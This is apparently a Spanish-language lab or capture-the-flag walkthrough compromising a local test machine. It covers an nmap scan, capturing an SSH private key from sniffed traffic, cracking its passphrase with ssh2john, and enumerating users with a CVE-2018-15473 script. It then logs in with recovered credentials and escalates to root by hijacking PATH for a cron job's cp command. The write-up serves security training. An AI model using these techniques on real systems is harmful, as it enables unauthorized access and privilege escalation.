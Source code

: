 Hacemos el reconocimiento con nmap:
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.0.43 -oN escaneo
```
![[Pasted image 20230723111912.png]]
Y esto es lo que nos encontramos en el puerto 8000:
![[Pasted image 20230723111951.png]]
Como vemos esto de escuchar, probamos en hacer sniffing con wireshark para ver qué encontramos, lo que vemos un id_rsa:
![[Pasted image 20230723112416.png]]
Hacemos clic derecho sobre este texto y seleccionamos la opción as a printable text:
![[Pasted image 20230723112543.png]]
Y estamos guardando parte del id_rsa:
![[Pasted image 20230723112611.png]]
Y luego si vemos otro paquete, vemos el final:
![[Pasted image 20230723112725.png]]
Ahora al editar el contenido, tenemos que quitar esta línea:
![[Pasted image 20230723112837.png]]
Así nos debería de quedar:
![[Pasted image 20230723112904.png]]
Vamos a crackear el hash:
```bash
ssh2john id_rsa > hash
```
![[Pasted image 20230929083853.png]]
Tenemos una contraseña pero no tenemos el usuario, por lo que podemos fijarnos en el reporte de nmap y descubrir cual es el usuario ssh ya que es una versión algo antigua:
![[Pasted image 20230929084023.png]]
![[Pasted image 20230929084041.png]]
Y nos bajamos un diccionario con nombres de usuario:
```bash
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt
```
Y lanzamos el ataque para ver si encontramos algún usuario válido:
![[Pasted image 20230929084413.png]]
```bash
python3 CVE-2018-15473.py -p 22 192.168.0.82 -w names.txt
```
Y vemos que el usuario abel es usuario válido:
![[Pasted image 20230929084501.png]]
```bash
abel:idontknow
```
Iniciamos sesión por ssh con estas credenciales usando este id_rsa:
![[Pasted image 20230929084731.png]]
Una vez dentro, si ejecutamos el comando crontab -l vemos que hay un comando que se ejecuta de forma automatizada:
![[Pasted image 20230929085226.png]]
Y como vemos que se está ejecutando el comando cp como root, podemos probar en explotar un path hijacking abusando del comando cp:
[[8 - Manipular el PATH - Path Hijacking]]
```bash
nano cp
chmod 777 cp
export PATH=.:$PATH
bash -p
```
Por lo que creamos un archivo llamado cp con el siguiente contenido para cambiarle el permiso a la bash:
![[Pasted image 20230929085600.png]]
